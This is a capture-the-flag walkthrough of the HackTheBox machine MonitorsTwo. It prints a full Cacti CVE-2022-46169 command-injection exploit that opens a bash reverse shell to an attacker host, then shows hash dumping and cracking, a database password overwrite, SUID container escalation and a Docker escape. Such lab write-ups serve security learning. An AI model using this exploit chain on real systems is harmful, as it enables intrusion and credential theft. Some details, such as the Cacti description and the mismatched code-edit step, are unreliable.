



## Reconnaissance

### nmap 
```
nmap -sC -sV -oN monitor2 10.10.11.211
```


### Gobuster 
```
gobuster dir -u http://10.10.11.211 -w /usr/share/wordlists/dirb/common.txt
```


### web 

> Try to access web application
> Find cacti login 
- Default Login Credentials (admin / admin) 
- Failed 


> The cacti version list in web.


#### Cacti 1.2.22 

> Research for Cacti 1.2.22, it is a web camera monitor service.
> It has existing CVE: CVE-2022-46169
- [CVE-2022-46169 Detail](https://nvd.nist.gov/vuln/detail/CVE-2022-46169)



- Search Exploit code 
```
searchsploit cacti | grep '1.2.22'
```


- Find another video talked about this issue and he do a little modfication on it.
> Original Exploit Code 
```
#![]usr/bin/env python3
import random
import httpx, urllib

class Exploit:
    def __init__(self, url, proxy=None, rs_host="",rs_port=""):
        self.url = url 
        self.session = httpx.Client(headers={"User-Agent": self.random_user_agent()},verify=False,proxies=proxy)
        self.rs_host = rs_host
        self.rs_port = rs_port

    def exploit(self):
        # cacti local ip from the url for the X-Forwarded-For header
        local_cacti_ip  = self.url.split("//")[1].split("/")[0]
    
        headers = {
            'X-Forwarded-For': f'{local_cacti_ip}'
        }
        
        revshell = f"bash -c 'exec bash -i &>/dev/tcp/{self.rs_host}/{self.rs_port} <&1'"
        import base64
        b64_revshell = base64.b64encode(revshell.encode()).decode()
        payload = f";echo {b64_revshell} | base64 -d | bash -"
        payload = urllib.parse.quote(payload)
        urls = []
        
        # Adjust the range to fit your needs ( wider the range, longer the script will take to run the more success you will have achieving a reverse shell)
        for host_id in range(1,100):
            for local_data_ids in range(1,100):
                urls.append(f"{self.url}/remote_agent.php?action=polldata&local_data_ids[]={local_data_ids}&host_id={host_id}&poller_id=1{payload}")
                
        for url in urls:
            r = self.session.get(url,headers=headers)
            print(f"{r.status_code} - {r.text}" )
        pass

    def random_user_agent(self):
        ua_list = [
            "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.124 Safari/537.36",
            "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:89.0) Gecko/20100101 Firefox/89.0",
        ]
        return random.choice(ua_list)

def parse_args():
    import argparse
    
    argparser = argparse.ArgumentParser()
    argparser.add_argument("-u", "--url", help="Target URL (e.g. http://192.168.1.100/cacti)")
    argparser.add_argument("-p", "--remote_port", help="reverse shell port to connect to", required=True)
    argparser.add_argument("-i", "--remote_ip", help="reverse shell IP to connect to", required=True)
    return argparser.parse_args()

def main() -> None:
    # Open a nc listener (rs_host+rs_port) and run the script against a CACTI server with its LOCAL IP URL 
    args = parse_args()
    e = Exploit(args.url, rs_host=args.remote_ip, rs_port=args.remote_port)
    e.exploit()

if __name__ == "__main__":
    main()
            
```


> Modified Part - adding the following code.
- Mofified the code to accept the x-forwarded value from user input.
1. Adding the folloing to init parameter
```
rs_xforwardedfor=""
```


2. In init function, add the following code to define xforwardedfor variable.
```
self.rs_xforwardedfor = rs_xforwardedfor
```


3. Modifing the header value 
- From 
```
header {
    'X-Forwarded-For': f'{local_cacti_ip}'
}
```
- To
```
header {
    'X-Forwarded-For': f'{local_cacti_ip}'
}
```


4. Adding  one more argparser parameter
```
argparser.add_argument("-xf", "--x_forwardedfor", help="the x-forwarded-for address", required=True)
```


5. Modifing the execute code part to add the xforwardedfor value to the last of line
```
rs_xforwardedfor=args.x_forwardedfor
```


## Exploit 

- After the exploit code prepared, execute it like following image.


- Check listener, it will get response
- The current user is `www-data`


- Check the hostname
- It shows the value seems tell us, it's in Container now.


- Confirm ```/etc/passwd```


- Access to the ```cacti.log``` file in log directory in web root.
- It shows there are 2 users
    1. admin
    2. marcus


- Find ```sql.php``` in script in web directory 


- DB credential in /include/config.php in web directory
- Confirm the mysql hostname & credential 
    1. db & root / root 
    2. localhost & cactiuser / cactiuser


- Upload pspy64s to check the current process


- Find ```cacti.sql``` file, and there is some interesting value. 
- Record the admin hash.


- Decode it by md5 
- Crdential (admin / admin)
- But I think it's wrong one, since I have tried this credential at first.
- I think the credential in here is only for initial.


- Using mysql credential to login 
```
mysql -h db -u root -proot
```


- Here is a tricky thing, after you login, the terminal won't reply anything if you are correct. 
- And only if the query string is wrong, it will response error and terminate the mysql process.
- Error sample 


- Show database list 
```
show databases;
```


- Choose cacti and list tables 
```
show tables;
```


- Interesting table: user_auth


- Access it
```
select * from user_auth;
```
- Get the following credentials
    1. marcus:$2y$10$vcrYth5YcCLlZaPDj6PwqOYTw68W1.3WeKlBn70JonsdW/MhFYK4C
    2. admin:$2y$10$IhEA.Og8vrvwueM7VEDkUes3pwc3zaBbQ/iuqMft/llx8utpR1hjC


- Create file to record these hash data.


- Using john & Ripper to decrypt it. (Brute Force)
- Get marcus credential
    - marcus / funkymonkey


- Since the admin password can't be crack successfully.
- Hence I want to direct change it by UPDATE script.
- Identify the hash type, it's encrypt by 'PASSWORD_BCRYPT'


- Generate a new one with ```password: admin ``` online


- Here is the complete UPDATE query script.
```
UPDATE user_auth SET password='$2y$10$JCmdF.yRe6Jn9iGjA2aW6.UnnwIMMqggxMOFaGLCI4a6PaB3B7W6m' where username='admin'
```


- Login with ```admin / admin ```, it success now.


- But there is nothing interesting or useful for privilege escalation in panel site.
- Using marcus credential to login by SSH
- Check current user
```
id 
```


- Get user flag


## Post Exploitation 

### In Docker Environment 

- Execute linpeas to enumerate the information in victim host
- Find there is a interesting file - capsh in sbin directory


- Find SUID file, the capsh also display in list.


- Confirm Capabilities in linpeas result
- cap_chown is enable, it might can use to escape from docker. (failed in this time)


- If the container has the following capabilities, it has chance to escape by them
    1. CAP_SYS_ADMIN
    2. CAP_SYS_PTRACE
    3. CAP_SYS_MODULE
    4. DAC_READ_SEARCH
    5. DAC_OVERRIDE
    6. CAP_SYS_RAWIO
    7. CAP_SYSLOG
    8. CAP_NET_RAW
    9. CAP_NET_ADMIN


#### Manually confirm
- Check hidden file - dockerenv ->  it's empty


- Check currently container capabilities
```
capsh --print
```


- The pid 1 is init process, in container it represent the main container process


- So, check the status in init process will cover capabilities and other system information.
- Using different PID, it can check the capabilities of corresponding process(functions)


- Since it will include the capabilities like following image
- Each capabilities represent meaning as follow
    1. CapInh = Inherited capabilities
    2. CapPrm = Permitted capabilities
    3. CapEff = Effective capabilities
    4. CapBnd = Bounding set
    5. CapAmb = Ambient capabilities set


- Using capsh to decode the hexadecimal numbers.
- It will show the detail of the capabilities name that the  process or the system have
```
capsh --decode=<>
```


- Until here, I collect some information in docker container by linpeas, and focus privilege or escape point on capabilities.
- And with the result of find SUID file, I also realize the ```capsh``` has been set the SUID permission.
- I also research it from [GTFObins](https://gtfobins.github.io/gtfobins/capsh/), and there is some technique to escalate the privilege in container.
### Privilege Escalation in Container

- Follow the GTFObins result, it provides 3 different way, and it has different goal.


- Since I can't execute sudo, so I first skip last one.
- As second one, I think if I skip install command, it still worth to try.
- But I try first method to escape from restricted env first, since I also find that there are a lot of commands can't execute. (Even though it's not rshell, it still restrict many commands.)
```
capsh --
```
- After execute, it still in same user, so, 1st method failed obviously.


- Second one, according to the description, after the command execute, if it doesn't work, I have to execute ```sh -p ```.
- But sometimes, it will directly get root permission, I have no idea why.
```
capsh --gid=0 --uid=0 --
# sh -p
```


### Back to the actual victim environment

- After getting root permission in container, I keep search some interesting file, but nothing found, even in root directory.
- So, I back to actual victim environment with marcus credential to login by SSH
- Confirm docker version


- Find SUID file 


- Check network status 


- There is no useful message, after reading in discussion and discuss with my friend, I got some hints.
- I relogin by ssh again, there is some information.
- It mentiond that the marcus has mail need to check.


- So move to mail directory 
```
find / -name "mail" 2>/dev/null
```


- Move to ```/var/mail```
- Check the mail which name is marcus


- It talked about there are some vulnerabilities should be addressed, and one of that related to docker container (CVE-2021-41091)


- Research this CVE in NVD
> Moby is an open-source project created by Docker to enable software containerization. A bug was found in Moby (Docker Engine) where the data directory (typically `/var/lib/docker`) contained subdirectories with insufficiently restricted permissions, allowing otherwise unprivileged Linux users to traverse directory contents and execute programs. 


- Search the exploit code from GITHUB


- Download and use it to escalate to root.
### Privilege Escalation 

- Transfer the exploit code, and provide execute permission to it.


- Execute it, it has some information need to be done before move to next step.
- It need the root permission in container, and set up the suid to ```/bin/bash``` 


- Since I have root permission in container.
- Then follow the instruction, set the permission for ```/bin/bash ``` in container
```
chmod u+s /bin/bash
```


- Move to the merged directory


- Execute ``` /bin/bash -p ``` to escalate to root


- Get root flag


## NOTE
### Struggle in this lab

1. MySQL doesn't have response in terminal, it make me confused, I think one of the reason is I'm not familiar with MySQL query.
2. About docker escape method, I didn't notice the mail file which include the hint in ssh description at first, I think I need to read everything carefully next time.
3. Linux special permission 


4. What's ```bash -p```

```
sh -p 
bash -p
```
> Turn on privileged mode. In this mode, the ENV file is not processed, and shell functions are not inherited from the environment. This is enabled automatically on startup if the effective user (group) id is not equal to the real user (group) id. Turning this option off causes the effective user and group ids to be set to the real user and group ids.

- [Bash Specific Features](http://web.mit.edu/gnu/doc/html/features_4.html)


5. Linux Process Journey: PID 1
> Mostly known as “init”. init is the first Linux user-mode process created, which runs until the system shuts down.
> init manages the services (called demons under Linux, more on them in a future post). 
> if we check the process tree of a Linux machine we will find that the root of the tree is init.
> Linux下有3个特殊的进程，idle进程(PID = 0), init进程(PID = 1)和kthreadd(PID = 2)
- idle进程其pid=0，其前身是系统创建的第一个进程，也是唯一一个没有通过fork或者kernel_thread产生的进程。
- idle进程(PID = 0，swapper，也叫idle）由系统自动创建, 运行在内核态 ,创建了第一个用户进程（init进程(PID = 1) /sbin/init）和通过kernel_thread创建第一个内核进程kthreadd(PID = 2) 之后idle进程(PID = 0)进入idle状态
- init进程完成系统的初始化. 是系统中所有其它用户进程的祖先进程。主要作用是处理僵尸进程。当某个父进程比子进程提前消亡时，父进程会给子进程重新寻找“养父进程”，一般就是进程1，由进程1负责处理该子进程的消亡。

6. Go through the whole lab, the thinking of mine is:
    - Exploit the monitor service by CVE (found the suspicious version immediately)
    - Researched about how to exploit for a while.(Including find the critical video).
    - After get initial access, I find the potential real user very fast.
    - But, I stucked on mysql DB part for a long time, after I tried to execute sql query directly.
    - During the time I got stuck on mysql, I also tried to escape and escalate in container, but it also failed.
    - When I got marcus credential, I get user flag immediately, but I stucked again, I stucked on privilege escalation part.
    - I did a lot of enumeration on actual victim server, but I didn't find anything interesting.
    - So I backed to contained and tried to escalate the privilege first.
    - In this time, I tried the 2nd method in GTFObins, it success very smooth.
    - But I still can get useful information after I got root permission in container.
    - So I got back actual victim server, and I found other player's exploit code, I find CVE-2021-41091.
    - I tried the exploit, and success.
    - Then I relaunch my shell, back to marcus permission.
    - I found the description in ssh, and found the mail.
## Reference 

- [(DISCUSSSION)monitorstwo](https://forum.hackthebox.com/t/official-monitorstwo-discussion/280258/83)
### CVE-2022-46169

- [CVE-2022-46169 Detail(NVD)](https://nvd.nist.gov/vuln/detail/CVE-2022-46169)
- [(ExploitDB)CVE-2022-46169](https://www.exploit-db.com/exploits/51166)
- [(YouTube)CVE-2022-46169](https://www.youtube.com/watch?v=VIkrAX47s_Q)
- [Cacti: Unauthenticated Remote Code Execution](https://www.sonarsource.com/blog/cacti-unauthenticated-remote-code-execution/)
#### Failed to execute
- [(GITHUB)CVE-2022-46169](https://github.com/Anthonyc3rb3ru5/CVE-2022-46169)
- [(GITHUB)CVE-2022-46169](https://github.com/sAsPeCt488/CVE-2022-46169)
- [(GITHUB)CVE-2022-46169](https://github.com/m3ssap0/cacti-rce-cve-2022-46169-vulnerable-application)
- [(PHP Manual)Function-password-hash](https://www.php.net/manual/en/function.password-hash.php)
- [PHP password_hash online generator](https://phppasswordhash.com/)
### Crack Password Hash

- [John the Ripper usage examples](https://www.openwall.com/john/doc/EXAMPLES.shtml)
### MySQL

- [Run a single MySQL query from the command line](https://electrictoolbox.com/run-single-mysql-query-command-line/)
- [MySQL - Update Query](https://www.tutorialspoint.com/mysql/mysql-update-query.htm)
### Privilege Escalation

#### Linux Capabilities

- [(GTFObins)capsh](https://gtfobins.github.io/gtfobins/capsh/)
- [(HackTricks)Linux Capabilities](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/linux-capabilities)
- [Linux Privilege Escalation – Exploiting Capabilities](https://steflan-security.com/linux-privilege-escalation-exploiting-capabilities/)
- [Exploiting Linux Capabilities – Part 3](https://tbhaxor.com/exploiting-linux-capabilities-part-3/)
- [The Linux Process Journey — PID 1 (init)](https://medium.com/@boutnaru/the-linux-process-journey-pid-1-init-60765a069f17)
- [LINUX PID 1和SYSTEMD 专题](https://developer.aliyun.com/article/268869)
#### Docker Related

- [Container Escape: All You Need is Cap (Capabilities)](https://www.cybereason.com/blog/container-escape-all-you-need-is-cap-capabilities)


- [(HackTricks)Docker Breakout / Privilege Escalation](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/docker-security/docker-breakout-privilege-escalation)
- [Docker Escape](https://exploit-notes.hdks.org/exploit/container/docker/docker-escape/)
- [浅谈云原生环境信息收集技术](https://www.ctfiot.com/27870.html)
#### CVE-2021-41091

- [(NVD)CVE-2021-41091](https://nvd.nist.gov/vuln/detail/CVE-2021-41091)
- [(GITHUB)CVE-2021-41091](https://github.com/UncleJ4ck/CVE-2021-41091)
### Linux Bash and Permission

#### About Bash Privilege options

- [Bash Specific Features](http://web.mit.edu/gnu/doc/html/features_4.html)
- [Difference-between-real-effective-user-id-in-linux-os](https://linuxhint.com/difference-between-real-effective-user-id-in-linux-os/)
#### Linux Special File Permission

- [Linux – 特殊權限的設定](https://benjr.tw/164)
- [如何在Linux中查找具有SUID和SGID權限的文件](https://kknews.cc/zh-tw/code/qopykvr.html)
- [Linux特殊权限之suid、sgid、sbit权限](https://zhuanlan.zhihu.com/p/572529240)
- [How to Find Files With SUID and SGID Permissions in Linux](https://www.tecmint.com/how-to-find-files-with-suid-and-sgid-permissions-in-linux/)

### Others 
- [python module - httpx](https://pypi.org/project/httpx/)

###### tags: `HackTheBox` `linux` `Linux` `Cacti Exploit` `Monitor Exploit` `Cacti 1.2.22` `CVE-2022-46169` `Command Injection` `CVE-2021-41091` `Docker` `Container Escape`